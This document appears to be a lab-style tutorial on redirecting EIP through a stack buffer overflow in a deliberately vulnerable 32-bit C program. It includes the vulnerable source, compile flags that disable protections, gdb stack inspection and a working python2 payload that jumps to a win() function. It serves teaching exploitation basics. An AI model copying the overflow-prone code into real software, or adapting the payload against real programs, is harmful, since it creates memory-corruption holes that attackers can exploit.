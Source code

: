 # Buffer Overflow Exploit without Shellcode (Redirection of `EIP`) in 32bit Executable

This example was supplied in https://samsclass.info/127/proj/ED202c.htm


Complete recording of the commands and output can be found in [`script` recording](./buffer_overflow_without_shellcode.txt).

## Compile Code

I compiled the `pwd.c`:

```c title="pwd.c"

#include <stdlib.h>
#include <stdio.h>

int test_pw() {
        char password[10];
        printf("Password address: %p\n", password);
        printf("Enter password: ");
        fgets(password, 50, stdin);
        return 1;
}

void win() {
        printf("You win!\n");
}

void main() {
        if (test_pw()) printf("Fail!\n");
        else win();
}
```


using:

```bash
cc \
    19          -mpreferred-stack-boundary=2 \
    20          -ggdb \
    21          -static \
    22          -m32 \
    23          -no-pie \
    24          -fno-stack-protector \
    25          -z execstack \
    26          -o /tmp/pwd pwd.c
```


## Overflow

Through trial and error, it was found that if we input more than 18 characters, the program crashes:

```bash
python2 -c 'print("U"*18)' | ./pwd
Password address: 0xffffccae
[1]    103844 done                              python2 -c 'print("U"*18)' | 
       103845 segmentation fault (core dumped)  ./pwd
```


## Seeing the Stack

Let's take a look at the stack right after the input. We open the program using `gdb` and look at the instructions for the `test_pw` function:

```
> gdb -q /tmp/pwd

(gdb) disas test_pw 
Dump of assembler code for function test_pw:
   0x08049da5 <+0>:     endbr32 
   0x08049da9 <+4>:     push   %ebp
   0x08049daa <+5>:     mov    %esp,%ebp
   0x08049dac <+7>:     push   %ebx
   0x08049dad <+8>:     sub    $0xc,%esp
   0x08049db0 <+11>:    call   0x8049c80 <__x86.get_pc_thunk.bx>
   0x08049db5 <+16>:    add    $0x9b24b,%ebx
   0x08049dbb <+22>:    lea    -0xe(%ebp),%eax
   0x08049dbe <+25>:    push   %eax
   0x08049dbf <+26>:    lea    -0x30ff8(%ebx),%eax
   0x08049dc5 <+32>:    push   %eax
   0x08049dc6 <+33>:    call   0x8051230 <printf>
   0x08049dcb <+38>:    add    $0x8,%esp
   0x08049dce <+41>:    lea    -0x30fe2(%ebx),%eax
   0x08049dd4 <+47>:    push   %eax
   0x08049dd5 <+48>:    call   0x8051230 <printf>
   0x08049dda <+53>:    add    $0x4,%esp
   0x08049ddd <+56>:    mov    $0x80e5434,%eax
   0x08049de3 <+62>:    mov    (%eax),%eax
   0x08049de5 <+64>:    push   %eax
   0x08049de6 <+65>:    push   $0x32
   0x08049de8 <+67>:    lea    -0xe(%ebp),%eax
   0x08049deb <+70>:    push   %eax
   0x08049dec <+71>:    call   0x8058110 <fgets>
   0x08049df1 <+76>:    add    $0xc,%esp
   0x08049df4 <+79>:    mov    $0x1,%eax
   0x08049df9 <+84>:    mov    -0x4(%ebp),%ebx
   0x08049dfc <+87>:    leave  
   0x08049dfd <+88>:    ret
```

We can see that the instruction right after getting the input from the user (`fgets`) is at byte 76. We put a breakpoint there so we can freeze the program and take a peak at the stack right after we supply the input.

```
(gdb) b * test_pw +76
Breakpoint 1 at 0x8049df1: file pwd.c, line 9.
```

Then we look at the two registers that define the range of the stack, `ESP` (start of stack) and `EBP` (end of stack).

```
(gdb) i r esp
esp            0xffffcc60          0xffffcc60
(gdb) i r ebp
ebp            0xffffcc7c          0xffffcc7c
```

We see that the stack is of size `0x1C` (28 bytes in decimal). Let's a take a look at the next 10 wordsize hex addresses from `ESP`:

```
(gdb) x/10x $esp
0xffffcc60:     0xffffcc6e      0x00000032      0x080e5300      0x55550002
0xffffcc70:     0x55555555      0x55555555      0x55555555      0x55555555
0xffffcc80:     0x0804000a      0x080e5000
```

We can see that our input (`U` is ASCII is `55`) overwrites every up until the `EBP`. So the next 4 characters we supply should be the address where we want the instruction pointer to go. This is how we control the flow of the program.

## Finding Return Address

We want to jump to the first instruction inside the `win` function:

```
(gdb) disas win 
Dump of assembler code for function win:

0x08049dfe <+0>:     endbr32 
0x08049e02 <+4>:     push   %ebp
0x08049e03 <+5>:     mov    %esp,%ebp
0x08049e05 <+7>:     push   %ebx
0x08049e06 <+8>:     call   0x8049e5f <__x86.get_pc_thunk.ax>
0x08049e0b <+13>:    add    $0x9b1f5,%eax
0x08049e10 <+18>:    lea    -0x30fd1(%eax),%edx
0x08049e16 <+24>:    push   %edx
0x08049e17 <+25>:    mov    %eax,%ebx
0x08049e19 <+27>:    call   0x80586f0 <puts>
0x08049e1e <+32>:    add    $0x4,%esp
0x08049e21 <+35>:    nop
0x08049e22 <+36>:    mov    -0x4(%ebp),%ebx
0x08049e25 <+39>:    leave  
0x08049e26 <+40>:    ret    
```

In this case, the address is `0x08049dfe`. We need to convert this address to little Endian form so it will become `\xfe\x9d\x04\x08`. We can use Python to create the payload for us.

## Create Payload with EIP redirection

We create the payload and pipe it into the program `stdin`:

```bash
> python2 -c 'print("UUUUUUUUUUUUUUUUUU\xfe\x9d\x04\x08")' | /tmp/pwd

Password address: 0xffffcdbe
Enter password: You win!
[1]    104775 done                              python2 -c 'print("UUUUUUUUUUUUUUUUUU\xfe\x9d\x04\x08")' | 
       104776 segmentation fault (core dumped)  /tmp/pwd

```

Make sure to use `python2` because `python3` added extra bytes as padding when printing hexadecimal characters as described in [this issue](https://bugs.python.org/issue34437).
